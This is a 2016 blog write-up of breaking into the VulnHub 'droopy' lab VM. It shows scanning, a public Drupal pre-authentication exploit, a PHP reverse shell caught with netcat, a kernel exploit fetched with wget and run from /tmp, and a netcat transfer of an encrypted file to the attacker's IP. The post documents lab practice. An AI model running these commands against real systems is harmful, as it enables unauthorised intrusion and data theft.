 ```yaml
---
layout: post
title:  "vulnhub droopy vm"
date:   2016-05-26 00:00:10 +0000
categories: vulnhub
---
```

<p>Been a while since i played with vulnhub. So since yesterday i've been trying to break <a href="https://www.vulnhub.com/entry/droopy-v02,143/">droopy</a>, which i almost did ...
<p>So, the usual stuff:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p> My target is 192.168.1.89 .
{% highlight bash %}
nmap -p- -sV 192.168.1.89
{% endhighlight %}
<p> Found a port 80 open. I followed it since it was the only one open and found a drupal website.
<br>I tried to create a user no luck, i searched for something interesting in the sub-directories:
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404   http://192.168.1.89/FUZZ
{% endhighlight %}
<pre>
==================================================================
ID	Response   Lines      Word         Chars          Request
==================================================================

00385:  C=301      9 L	      28 W	    314 Ch	  "includes"
00491:  C=301      9 L	      28 W	    310 Ch	  "misc"
00499:  C=301      9 L	      28 W	    313 Ch	  "modules"
00675:  C=301      9 L	      28 W	    313 Ch	  "scripts"
00724:  C=301      9 L	      28 W	    311 Ch	  "sites"
</pre>
<p>... after a while decide to change and look for the drupal stuff. I found this gem <a href="https://github.com/droope/droopescan">droopescan</a> and found drupal 7.3 was in usage.
{% highlight bash %}
./droopescan  scan drupal -u http://192.168.1.88/ -t 8
{% endhighlight %}
<p>I don't usually ( at least i don't remember) hunt for exploits but his time this seemed a reasonable choice since it was an old version of drupal and i had no other ideia.
<p>Found the exploit ... a pre-authentication one, wow. o.o !!
<a href="https://www.exploit-db.com/exploits/34992/">the exploit</a>
{% highlight bash %}
python 34992.py  -t http://192.168.1.88 -u impious -p impious
{% endhighlight %}
<p>User created.

<p> So, in the admin panel after a while trying to add a "file uploader" to the article i saw an item saying to enable PHP to run. I wonder if this is commom usage in other CMS and similar, like wordpress and stuff... must check this.
<br>In modules I set the PHP to ok and then set the possibility to add php code in 'articles'. Next, i created a new article and used this <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">php reverse shell</a> pointing to my computer. With the usual suspect netcat for the win:
{% highlight bash %}
nc -lnvvp 12344
{% endhighlight %}
I created an article with that PHP in the body!
<p><b>shell!</b>

<p>After fooling around in the server, moving around all directories i could remember,there was no commom user directories to see .bash_history and not much besides the mysql password with no further info in the database as well.
I knew it was an old kernel, it's probably the first command i do whenever i connect to a server:
{% highlight bash %}
uname -a
{% endhighlight %}
Old old kernel... then again, i had no clue what to do next so i choose the easy path:
{% highlight bash %}
cd /tmp
wget https://www.kernel-exploits.com/media/ofs_64
chmod +x ofs_64
./ofs_64
{% endhighlight %}
<p><b>ROOT!</b> Oh!
<p>Reading the email in /var/spool/mail/www-data and the help hints i knew i had to use rockyou passwordlist against something and found the encrypted file in:
{% highlight bash %}
/root/dave.tc
{% endhighlight %}
<p>So copied the file with netcat to my computer:
{% highlight bash %}
nc -lnvvp 12345 > dave.tc
nc 192.168.1.73 12345 < dave.tc
{% endhighlight %}
<p>Well, then i gave up... i started cracking it with hashcat and went to do something else ... when i got back after 2 hours... no luck... wtf... i must have done something wrong.
<p>I thought i did something wrong.. 2 exploits in one VM and still no flag?  Hm... so i went to check other people resolutions: it appears they filtered the rockyou by the word 'academy' ( from the email in /var/spool/mail/www-data)... <b>i would never do that, honestly.</b> I still fail to see that hint in the email :P . So then they mount the truecrypt and found the flag in an hidden folder.
<p>Fun until root! :) After that i started wondering if what i was doing was ok, mainly those 2 exploits usage.

